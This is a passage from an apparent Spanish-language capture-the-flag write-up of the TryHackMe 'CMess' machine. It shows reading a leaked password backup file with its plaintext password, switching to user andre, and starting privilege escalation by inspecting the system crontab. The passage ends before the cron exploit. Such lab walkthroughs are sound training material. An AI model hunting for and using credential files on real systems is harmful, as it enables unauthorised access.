![Untitled](/assets/images/2022-02-12-writeup-maquina-thm-cmess/Untitled%2012.png)

linpeas nos arroja que existe un archivo donde contiene el password de andres 

```bash
www-data@cmess:/var/www/html$ cat /opt/.password.bak 
andres backup password
UQfsdCB7aAP6
```

nos logueamos con el usuario andres con las credenciales encontradas

```bash
www-data@cmess:/var/www/html$ su andre
Password: 
andre@cmess:/var/www/html$ whoami
andre
andre@cmess:/var/www/html$ id
uid=1000(andre) gid=1000(andre) groups=1000(andre)
andre@cmess:/var/www/html$
```

## Escalacion de privilegios

ejecutamos linpeas y vemos que nos arroja que se esta ejecutando una tarea cada cierto tiempo y esto lo comprobamos de la siguiente manera

```bash
andre@cmess:/tmp$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
```
